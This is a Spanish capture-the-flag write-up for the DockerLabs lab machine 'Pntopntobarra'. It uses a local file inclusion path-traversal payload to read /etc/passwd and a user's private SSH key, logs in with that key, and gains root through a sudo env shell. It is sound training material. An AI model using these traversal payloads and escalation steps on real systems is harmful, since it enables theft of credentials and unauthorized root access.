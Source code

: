 ```yaml
---
title: Pntopntobarra - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | maciiii___        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/44261ae0-a713-4bbd-a656-5faac24621f1)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.
```bash
nmap -p22,80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/29121e08-d26c-45c2-aef1-be7698e0a060)

# Exploración Web

Accedemos al puerto `80` y encontramos una página web con un mensaje de advertencia y dos botones: "Hacer clic aquí podría empeorar la situación" y "Ejemplos de computadoras infectadas".

![image](https://github.com/user-attachments/assets/303820c1-440e-4ad1-b3b0-6e5d1e27018c)

Al probar con esa ruta, el archivo se carga sin problemas, lo cual indica que posiblemente estamos ante una vulnerabilidad **LFI (Local File Inclusion)**. Esto permite incluir archivos locales en el servidor al manipular el parámetro `images`.

![image](https://github.com/user-attachments/assets/b86d67c6-9b0e-4fa4-810d-d617e6d4ad5c)

Para confirmar, intentamos leer el archivo `/etc/passwd`, que lista los usuarios en el sistema:

![image](https://github.com/user-attachments/assets/ee0c3bfc-c679-47cf-bcc2-9fdc25cc7eca)

```URL
http://172.17.0.2/ejemplos.php?images=./../../../etc/passwd
```

![image](https://github.com/user-attachments/assets/da7342eb-23a3-4476-b2a8-36cf38cfaa5f)

Vamos a ver que mas podemos hacer , ya que el puerto `22` esta abierto vamos a ver si podemos sacar el `.ssh` de algun usuario.

![image](https://github.com/user-attachments/assets/3d27550e-5c05-45ba-8a24-d9f12a312002)

# Intrusion

Descubrimos el usuario `nico` en `/etc/passwd`. Dado que el puerto `22` está abierto, intentamos obtener la clave SSH privada (`id_rsa`) de nico para acceder al sistema como él. El archivo `id_rsa` en `.ssh` contiene una clave privada que permite autenticación SSH sin contraseña.

Intentamos cargar el archivo de clave privada con LFI:

```URL
http://172.17.0.2/ejemplos.php?images=./../../../home/nico/.ssh/id_rsa
```
![image](https://github.com/user-attachments/assets/4b2a0dea-55c1-4d11-816f-e6617861c8eb)

Copiamos el contenido del archivo `id_rsa` en nuestra máquina y le damos permisos adecuados antes de conectarnos:

```bash
chmod 600 id_rsa
ssh -i id_rsa nico@172.17.0.2                      
```
Esto nos da acceso al sistema como el usuario `nico`.

![image](https://github.com/user-attachments/assets/864916ad-318b-4853-a86f-6b4110b300b8)

# Escalada de Privilegios.

Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `env` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/d2ca0d5c-82ce-432f-8d60-329ce7205c51)

Ejecutamos el siguiente comando para obtener una shell con privilegios de root:
```bash
sudo env /bin/sh
```
Al ejecutar este comando, accedemos como root.

![image](https://github.com/user-attachments/assets/aee995db-8183-4286-9b25-71893c4199d3)
